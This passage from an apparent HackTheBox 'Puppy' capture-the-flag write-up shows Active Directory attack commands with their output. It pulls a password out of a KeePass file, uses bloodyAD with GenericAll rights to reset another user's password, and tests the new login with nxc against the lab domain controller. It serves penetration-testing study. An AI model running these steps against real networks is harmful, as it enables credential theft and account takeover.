 lets grab it

```bash
➜  keepass4brute git:(master) keepassxc-cli show -a Password ../recovery.kdbx "ANTONY C. EDWARDS"

Enter password to unlock ../recovery.kdbx: 
Antman2025!
```

### GenericAll

commands to execute

```bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p Antman2025! set password adam.silver 'Newpassword123!' 
```

but its not work why????

```bash
➜  Puppy nxc smb DC.puppy.htb -u adam.silver -p 'Newpassword123!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:Newpassword123! STATUS_ACCOUNT_DISABLED 
```

![alt text](../assets/images/puppy6.png)

Its about accounts is disabled since we have **GENERICALL** on this user we can active it as we did [HTB-Vintage](https://lineeralgebra.github.io/posts/HackTheBox-Vintage/#activate-the-account)
